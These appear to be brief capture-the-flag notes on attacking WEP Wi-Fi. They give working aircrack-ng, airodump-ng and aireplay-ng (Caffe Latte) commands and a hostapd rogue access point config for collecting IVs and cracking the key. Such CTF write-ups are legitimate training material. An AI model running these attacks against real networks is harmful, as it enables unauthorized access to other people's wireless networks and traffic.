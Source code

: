 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon



# wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words
sudo aircrack-ng -w cyberpunk.words derp0-01.cap


## Caffe Latte

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:
It helps to know the channel, which is more of an art and needs tweaking by playing with airodump to find what the target is looking for.

airodump-ng -w cafefile --output-format pcap --band a -c 44 wlan29mon

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

to specify the channel, the interface needs to be brought up in airodump with channel specified.

aireplay-ng --caffe-latte -h 02:00:00:00:1E:00 -b 00:13:10:30:24:9C -D wlan30mon

    -h is our card MAC address
    -b is the Access Point MAC (any valid MAC should work)
    -D disables AP detection.

find our own mac with `iw dev`


^ This didn't work for me at DefCon 2020

According to another member used hostapd instead of aireplay

```
interface=wlan31mon
ssid=WCTF_03
channel=44
hw_mode=a
#mana_wpaout=hostapd.hccapx
wep_default_key=1
wep_key1="abcde"
wep_key_len_broadcast="5"
wep_key_len_unicast="5"
wep_rekey_period=300
auth_algs=3
```

put that into my_ha.conf

hostapd my_ha.conf starts the beacon and the original airodump will capture enough IVs for aircrack
